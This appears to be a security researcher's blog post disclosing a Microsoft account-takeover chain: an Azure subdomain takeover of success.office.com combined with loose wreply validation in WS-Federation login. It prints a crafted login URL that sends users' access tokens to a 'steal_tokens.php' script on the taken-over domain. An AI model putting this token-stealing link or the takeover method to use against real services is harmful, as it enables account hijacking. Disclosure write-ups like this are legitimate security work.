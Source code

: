 ```yaml
---
layout: post
title: Leaking access tokens from Microsoft apps chaining two vulnerabilities
---
```


---




### First Issue:

During the initial recon I retrieved the list of all possible subdomains of office.com pointing to many Azure instances. One of them was success.office.com which was not getting resolved to any IP address, but had a CNAME pointing to an Azure web app instance `successcenter-msprod`. 
Chances are that you can takeover an Azure instance if the domain is not getting resolved to it. So I tried to create a web app with the name `successcenter-msprod` in my Azure portal
and it was accepted as a valid name. In other words, the previous instance with that name had been removed and is now free.
Which basically means, whatever we host on `successcenter-msprod`; `success.office.com` would point to it as the CNAME record specifies. 

### Second Issue:

Microsoft uses WS Federation for it's implementation of a centralized login system for most of the applications including Outlook, Sway, Microsoft Store etc. WS Fed is similar to Oauth. 
`wreply` in WS Fed is the counterpart of `redirect_url` in Oauth. If you read about Nir Goldshlager's <a href="http://nirgoldshlager.blogspot.com/">Facebook Oauth bug series</a>, you will understand
the dangers of not using an exact URL match (or not properly validating) for wreply or redirect_url wherever possible. Here in this case, Microsoft 
was allowing any subdomains of office.com (*.office.com) to be a valid wreply URI. 


Since one of their subdomain was in my control, I could use the domain as a valid `wreply` url and was able to leak the access tokens:

`https://login.live.com/login.srf?wa=wsignin1.0&rpsnv=13&ct=1529775349
&rver=6.7.6643.0&wp=MBI_SSL&wreply=https://success.office.com/steal_tokens.php
&lc=1033&id=292666&lw=1&fl=easi2&pcexp=true&uictx=me`

Basically, if any user who has already been authenticated (or going to authenticate), "clicked" on a crafted link with the above changes, the tokens would get leaked and this token can be exchanged for a session token and subsequently an account takeover would result.

In the below screenshot, you can see the tokens getting leaked to the server I control:

<img src="https://raw.githubusercontent.com/sahadnk72/sahadnk72.github.io/master/files/outlook.jpg" />
<a href="https://www.safetydetective.com/blog/microsoft-outlook/"></a>

### Media Coverage:

This finding has gained some media attention. A few of them are listed below:

#### NDTV: <a href="https://www.ndtv.com/kerala-news/kerala-based-security-engineer-spots-bug-in-microsoft-office-365-outlook-1961352" target="_blank">Link</a>
#### TechCrunch: <a href="https://techcrunch.com/2018/12/11/microsoft-login-bug-hijack-office-accounts/" target="_blank">Link</a>
#### MensXP: <a href="https://www.mensxp.com/technology/hacks/48785-a-kerala-based-engineer-uncovered-a-bug-that-could-expose-more-than-40-crore-microsoft-accounts.html" target="_blank">Link</a>
#### Mashable: <a href="https://mashable.com/article/microsoft-account-takeover-vulnerability" target="_blank">Link</a>
#### IndiaTimes: <a href="https://www.indiatimes.com/technology/news/this-young-hacker-from-kerala-found-a-microsoft-bug-saving-the-account-data-of-40-crore-users-358466.html" target="_blank">Link</a>

